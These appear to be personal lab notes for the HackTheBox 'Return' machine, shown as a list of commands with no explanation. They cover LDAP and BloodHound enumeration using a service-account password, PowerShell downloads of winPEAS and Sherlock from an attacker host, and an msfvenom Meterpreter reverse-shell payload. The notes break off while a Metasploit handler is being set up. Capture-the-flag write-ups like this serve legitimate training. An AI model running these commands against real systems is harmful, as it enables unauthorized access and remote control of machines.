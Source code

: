 
```
ldapdomaindump ldaps://10.10.11.108 -u 'RETURN\svc-printer' -p '1edFg43012!!'
```
![[Pasted image 20240505194413.png]]


```
bloodhound-python -d RETURN.local -u svc-printer -p '1edFg43012!!' -ns 10.10.11.108 -c all
```
![[Pasted image 20240505194335.png]]

Let's run winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506015645.png]]

![[Pasted image 20240506020652.png]]

```
USERDOMAIN: RETURN
USERDNSDOMAIN: return.local
```



```
IWR -Uri http://10.10.16.20:8080/opt/windows_tools/Sherlock.ps1 -OutFile /opt/windows_tools/Sherlock.ps1
```
![[Pasted image 20240506022418.png]]

```
net user svc-printer
```
![[Pasted image 20240506022345.png]]

The only thing coming to my mind is Meterpreter shell and Msfvenom

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.16.20 LPORT=4242
```
![[Pasted image 20240506022907.png]]

```
upload HackTheBox/Return/shell.exe
```
![[Pasted image 20240506023311.png]]


Now will configure the Msfconsle before running the shell.exe
```
use exploit/multi/handler 
```
